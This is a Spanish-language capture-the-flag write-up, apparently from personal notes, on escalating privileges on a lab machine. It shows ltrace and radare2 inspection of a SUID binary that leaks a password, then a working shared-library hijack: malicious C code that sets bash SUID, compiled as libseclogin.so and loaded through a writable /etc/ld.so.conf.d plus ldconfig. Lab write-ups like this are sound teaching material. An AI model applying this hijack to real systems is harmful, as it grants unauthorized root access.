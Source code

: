 Si lo ejecutamos, aparentemente estamos como **root** pero no es mas que un **rabit hole** ya que al hacerle un **strings** podemos ver la siguiente cadena burlandose de nosotros:
![[Pasted image 20230810033626.png]]

Listando ahora por archivos con privilegio **SUID** encontramos uno interesante:
![[Pasted image 20230810033653.png]]

----------------
#### Ltrace/Radare2 Inspection (Password Leaking)  
Al ejecutarlo, nos pide una contraseña la cual podemos intentar ver si le lanzamos un **ltrace** al archivo:
![[Pasted image 20230810033742.png]]

Cuando ingresamos la contraseña, nos aparece un mensaje que dice que la función **seclogin()** ha sido **llamada**:
![[Pasted image 20230810033803.png]]

Lo que podemos hacer para inspeccionar más a bajo nivel el binario, es traernoslo a nuestro equipo y ejecutarlo con **radare2**.

`aaa`: Analizamos todas las funciones.
`afl`: Listamos las funciónes existentes.
`s main`: Nos sincronizamos a la función main.

Pero no hay nada más interesante, aparte de la contraseña que anteriormente ya encontramos.

-------------
#### Hijacking dynamically linked shared object library [Privilege Escalation]
Si listamos las librerias compartidas utilizadas en el archivo con **ldd** encontramos una de nombre **libseclogin.so**:
![[Pasted image 20230810033849.png]]

bien, pues estas librerias suelen cargar su orden de prioridad desde el **/etc/ld.so.conf.d** y tenemos capacidad de escritura en esta ruta. Lo que haremos es crear un archivo en **C**:
```c#
#include <stdio.h>

void seclogin(){
	setreuid(0,0);
	system("chmod u+s /bin/bash");
	return 0;
}
```

Compilamos este archivo de esta forma:
```
# gcc exploit.c -fPIC -shared -o libseclogin.so
```

Luego, en **/etc/ld.so.conf.d/** vamos a crear un archivo **.conf** que contenga la ruta de nuestro binario compilado malicioso:
```ruby
<path>/<to>/<malicious-library> #example /tmp/
```

Porteriomente, ejecutaremos el siguiente comando a nivel de sistema:
```
# ldconfig
```

Entonces, ya con esto, solo nos queda ejecutar el binario y tendriamos el **SUID** en la **bash**




